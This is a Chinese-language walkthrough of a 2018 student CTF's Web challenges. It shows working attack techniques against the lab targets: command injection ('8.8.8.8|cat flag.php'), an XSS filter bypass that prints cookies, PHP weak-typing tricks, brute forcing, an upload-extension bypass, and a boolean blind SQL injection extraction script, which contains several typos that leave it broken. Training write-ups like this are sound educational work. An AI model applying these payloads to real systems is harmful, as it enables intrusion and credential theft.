





# Web

&emsp;&emsp;2018 年的 Web 题知识点都比较基础，基本每题都只涉及到一个知识点。

## 签到

**考察要点：**浏览器开发者工具（F12），JSFuck 编码

1. 打开题目发现是一个网页，有一个输入框<center></center>

2. 任意输入字符返回“好像不对”，做 Web 题目遇事不决先 F12 看一下，发现源代码里有一串 JSFuck 代码。
3. 利用在线工具 JSFuck 解码工具进行解码，或者复制 JSFuck 代码到浏览器开发者工具 console 运行，即可得到 flag。<center></center>

## 计算器

**考察要点：**写脚本能力

1. 打开后页面如下图<center></center>
2. 要求简单来说就是回答 20 道数学题目，每道最多 3s,最少 1s，多次刷新后发现题目的长度，运算方法均不定，想到靠脚本计算，F12 审查后发现，题目的内容被分在多个元素中，如果使用正则匹配的话匹配难度较大，考虑用 webdriver，按照 xpath 来查找元素，对其进行整合，计算与提交，脚本内容如下

```python
import requests
import time
import re
from selenium import webdriver
driver=webdriver.Firefox()
driver.get("http://120.78.66.77:81")
for j in range(1,21):
    string=''
    i=1
    while driver.find_element_by_xpath("//body/form[1]/div[{}]".format(i)).text!='=':
        string+=driver.find_element_by_xpath("//body/form[1]/div[{}]".format(i)).text
        i+=1
    answer=eval(string)
    driver.find_element_by_xpath("//body/form[1]/input[1]").send_keys(answer)
    time.sleep(1)
    driver.find_element_by_xpath("//body/form[1]/input[2]").click()
```

## Cat?

**考查要点：**远程代码执行

1. 打开链接，F12 后看到注释中有提示<center></center>
2. 根据提示打开：http://120.78.66.77:87/exec.php?view_source <center></center>
3. 看到源码后分析一下发现输入是限制了长度不能超过 21 的，并且必须输入 ip 格式，然后想到命令行注入：

```shell
command1 && command2   #先执行 command1 后执行 command2
command1 | command2    #只执行 command2
command1 & command2    #先执行 command2 后执行 command1
```

4. 尝试输入： 8.8.8.8|ls,结果如下，所以 flag 应该是在 flag.php 中的<center></center>
5. 再尝试输入：8.8.8.8|cat flag.php 结果没有任何返回，我们抓包看一下，在 repeater 中看到返回了 flag。<center></center>

## 简单的 XSS

**考查要点：**简单 XSS Payload 构造

1. Hint：为啥不看看 cookie 呢
2. Hint：Markdown 兼容大多数 html 语法的
3. 反射型 xss，就是浏览器输入->后台处理->返回浏览器显示，听说 markdown 兼容大多数 html 语法，题目是 xss 那就试试咯，使用< script>alert(1);< /script>验证一下 xss 漏洞,发现回显是<>alert(1);
4. script 消失了。说明进了后台，并且被转换成了 null。双持 script 绕过。 < scscriptript> 打印 cookie
5. 构造 Payload: < scscriptript>document.write(document.cookie)< /scrscriptipt>得到 flag

## 一道入门的代码审计

**考查要点：**PHP 代码审计

1. 利用 php 弱类型语言的判断漏洞，用哈希值开头是 0e 的构造 payload;
2. 获取含有 flag 链接的网页，点进去发现没有访问权限。尝试各种方法更改 http 头部内容，添加 refer,更改 cookie……Burpsuit 抓包更改 permission 为 nqzva(rot13 加密后的 admin)
3. Burpsuit 可以看到返回了文件的链接，直接访问链接并没有东西。再将请求放 在 burpsuite 查看，返回 too slow。考虑用脚本、burpsuit 不断发包请求。
4. Burpsuite——>Send to Intruder——>Payload——>Generate 100 payloads ——>Start attack;
5. 脚本如下

```python
import requests
r1 = requests.Session()
while(1):
    r2 = r1.get("http://120.78.66.77:85/u/18f6dceefd3014a4b73e4b131776afa248ea810c/flag")
    print(r2.text)
```

然后可以得到结果如下图所示：<center></center>

## 登录一下

**考查要点：**SQL 注入

1. 打开题目地址，发现是个登录界面，先走流程，用代碗学姐最新换的 AWVS10.5 扫一扫这个网站，看看有没有源码泄漏或者其他可以扫到的漏洞，一般来讲用 AWVS 可以扫到一些出题人故意留下的线索，（如 git 泄漏，svn 泄漏或者.bak 泄漏等等），扫描出了几个列目录的漏洞但是并没有什么用。<center></center>
2. 接着用 Burp 抓包，看看服务器给我们返回的包里面有什么线索（burp 的使用教程 http://www.uml.org.cn/safe/201406135.asp）在浏览器中设置成 burp 使用的代理，然后访问登录页面，发现了提示。顺便一提，尽管这道题中出题人把提示藏在了页面源码中，可以直接在浏览器里看到，大师其他题给的提示有可能在 cookies 甚至服务器自定义的返回头里面，而这些东西都能在 burp 的抓包中看到，所以我们最好还是用 burp 来找 hint 提示告诉了我们数据库的一些信息，结合题目可以猜到是要我们通过 SQL 注入来获取密码。<center></center>
3. 测试这道题对上传数据的限制，我们首先发现如果我们提交的数据中处出现了关键字，服务器就会返回 naive。因此我们可以通过服务器是否返回 naïve 来测试一个关键字是否被禁止，经过手动测试（其实最好自己准备一份字典用 burp 批量测试），我们可以发现被禁止的关键字有：union select from where and 以及空格和空格的各类替代（%0a %0b /\*\*/之类） substr 还有/\*。各类绕过手段均无效，如大小写替换，URL 编码<center></center>
4. 看似无解的题目在有 hint 的情况下我们仍旧能够构造语句来绕过它。在我们发动 SQL 注入攻击前，我们要首先判断这个注入点的类型，一般的注入有 UNION 注入，报错注入，布尔注入，以及时间差注入（类似 DNS 注入的黑科技先不管）。 这道题把 Union 关键字给限制了，还不报错.因此我们首先考虑布尔注入。布尔（BOOL) 这个听起來很奇怪，其实说白了就是构造判断语句让服务在语句结果为真或者为假的时候 返冋不同结果，据此来获取信息。 可以发现如果用户名输入 admin，密码乱输，会提示我们 password error,但如果是其它用 户名，它就会提示 no such user。这表明可能可以在用户名那里下手注入。 测试发现用户名为 admin’&&(1)# 为 password error，为 admin’&&(0)#时为 no such user,布尔注入实锤！这个&&的意思是和，可以代替 and，而#是注释符号用于注释后面的语句。 我们可以假定这个登录语句是这样的<code>select pwd from table*name where uname=*’你输入的’</code>把刚刚输入的代进去就是<code>select pwd from table_name where uname=’adminl&&(1)#'</code>,如果括号内的内容为真（非 0)就能够返回结果（password error)，不能的话就无法返回 (no such user) 现在开始尝试把刚才括号内的内容换成 length(pwd),这个 length 函数可以取一个字符串的长度,整个语句就成了<code>select pwd from table_name where uname='adminl&&(length(pwd) )#’</code>返回的是 password error! 这说明 pwd 真的存在，而且可访问，于是我们可以加上各类判断语句来判断 pwd 的长度 于是就疯狂测试 在测试的时候，方便起见.可以把抓到的登录包放在 Burp 的 repeater 中，但是一定要把& 换成％26,否则服务器会把&后面的当作另一个上传的参数。发现这个密码长度为 30 (妈的真够长） 我们现在需要考虑如何跑出数据丫，正常的布尔注入需要用 substr 函数一个一个地取数据 ，但是我们的 substr 被禁了怎么办呢？我们还有 left 和 right 函数可以取。脚本如下：

```python
import requests
from concurrent.futures import ThreadPoolExecutor
from concurrent import futures
url="http://120.78.66.77:84/fb69d7b4467e33c71b0153e62f7e2bf0/"
head={"Content-Type":"application/x-www-form-unlencoded"} #不加上服务器不认
data="uname=admin'%26%26ascii(right(left(pwd,curlen),1))-curascii#&pwd="
pwd='_'*31
def Check(curlen):
    global pwd
    data="uname=admin'%26%26ascii(right(left(pod,curlen),1))BOOL#&pwd=".replace("curlen",str(curlen))#先替换位数
    start=0
    end=255
    while start<=end:#此处二分
        mid=(start+end)//2
        page=requests.post(url=url,headers=head,data=data,replace("BOOL","="+str(mid))).text
        if "error" in page:
            pwd=pwd[:curlen]+chr(mid)+pwd[curlen+1:]
            print(pwd[1:])
            return chr(mid)
        page=requests.post(url=url,headers=head,data=data,replace("BOOL","<"+str(mid))).text
        if "error" in page:
            end=mid-1
        else
            start=mid+1

with ThreadPoolExecutor(max_workders=20) as executor:
    futurn_list=list()
    for curlen in range(1,31):
        future=executor.submit(Check,curlen)
        future_list.appent(future)
    print("密码是"+pwd[1:])
```

## 一道船细的外部题目

**考查要点：**Linux 备份文件，账号密码爆破，PHP 文件后缀名绕过

1. 先 F12,看到提示 info.php<center></center>
2. 发现 info.php 被删除，看看备份文件.bak
3. 查看文件，指明了爆破的方式和账户&密码集合，只是有点大，脚本生成爆破文件，配置到 burp 里，静静等待………大概几十分钟吧
4. 登录后让上传 PHP 文件，由源码发现其实只是上传了文件名，但是普通的 php 文件无法上传，这时想到了 PHP 的一种别名：phps,一种特殊的 php 文件，得到 flag
